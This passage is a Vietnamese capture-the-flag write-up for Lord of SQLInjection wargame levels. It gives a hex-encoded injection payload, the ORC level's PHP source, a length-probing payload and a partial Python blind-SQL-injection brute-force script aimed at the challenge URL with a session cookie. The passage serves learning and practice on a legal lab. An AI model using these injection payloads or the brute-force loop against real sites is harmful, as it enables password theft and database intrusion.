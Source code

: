 Bởi vì no=int nên ta có thể không cần '

payload : no=1 or id= ????

Ở đây không xài được admin thông thường mà ta sẽ hex(admin) = 0x61646D696E

Payload: `no=1 or id= 0x61646D696E`

## ORC

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

Đọc code ta thấy Hàm **addslashes()** dùng để thêm một dấu gạch chéo ngược (\\) phía trước các ký tự là dấu nháy kép, dấu nháy đơn và dấu gạch chéo ngược trong chuỗi.

Để sovle được câu này ta phải có password của admin vì vậy cách làm sẽ là brute force pw

Đầu tiên ta sẽ dùng burp kiểm tra độ dài của pass `?pw=' or 1=1 and length(pw)=?`

![](<.gitbook/assets/image (1) (1) (1) (1).png>)

Ta thấy lúc này pw có độ dài là 9. Viết payload

```python
import requests
import string
# len pw = 9
url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
char = string.printable
cookie = {'Cookie':'PHPSESSID=7ih6g2u8u6tdme1u61etcjhgb7'}
password =''
session = requests.session()
for i in range(1,10):
    for j in char:
        pass_1 = password + j
        print(pass_1)
        param = "pw= 'or 1=1 and substring(pw,1,{}) = '{}'-- -".format(i,pass_1)
        r = session.get(url , params = param , headers = cookie)
```